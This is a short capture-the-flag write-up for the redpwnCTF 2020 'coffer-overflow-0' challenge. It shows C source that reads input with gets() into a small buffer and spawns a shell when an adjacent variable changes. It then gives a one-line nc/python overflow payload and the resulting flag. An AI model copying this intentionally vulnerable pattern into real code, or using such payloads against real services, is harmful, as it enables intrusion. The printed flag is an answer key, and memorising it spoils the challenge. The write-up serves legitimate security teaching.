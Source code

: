 # coffer-overflow-0

> Can you fill up the coffers? We even managed to find the source for you.
> nc 2020.redpwnc.tf 31199


Files provided:
* coffer-overflow-0.c  -  C source code
* coffer-overflow-0   - 64bit ELF file

C source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```

Our goal is to make the condition `code != 0` true, in order to execute the code contained in the if:
```c
    system("/bin/sh");
``` 
So, we have to modify the variable `code`.
To do this, we can cause a buffer overflow, as we can overwrite the memory beyond the name limits.
To modify `code` we have to enter at least 25 chars. 
```sh
$   ( python -c "print 'A'*25"; cat ) | nc 2020.redpwnc.tf 31199
```

And here is the flag: `flag{b0ffer_0verf10w_3asy_as_123}`
